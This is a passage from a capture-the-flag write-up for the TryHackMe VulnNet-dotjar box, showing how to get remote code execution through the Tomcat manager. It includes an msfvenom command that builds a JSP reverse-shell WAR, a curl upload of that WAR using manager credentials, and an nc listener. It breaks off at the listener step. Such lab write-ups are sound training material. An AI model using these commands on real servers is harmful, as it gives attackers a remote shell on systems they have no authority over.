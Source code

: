 **According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#limitations), we can do this via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-dotjar/images/Pasted%20image%2020230123144004.png)

```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```

Let's do that!

- Generating a WAR reverse shell via `msfvenom`:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:41:07(HKT)]
└> msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=443 -f war -o revshell.war
```

- Deploy the WAR reverse shell via `curl`:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:41:43(HKT)]
└> curl --upload-file revshell.war -u 'webdev:{Redacted}' 'http://vulnnet-dotjar.thm:8080/manager/text/deploy?path=/revshell'
OK - Deployed application at context path [/revshell]
```

- Setup a `nc` listener:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:42:54(HKT)]
└> nc -lnvp 443          
listening on [any] 443 ...
```
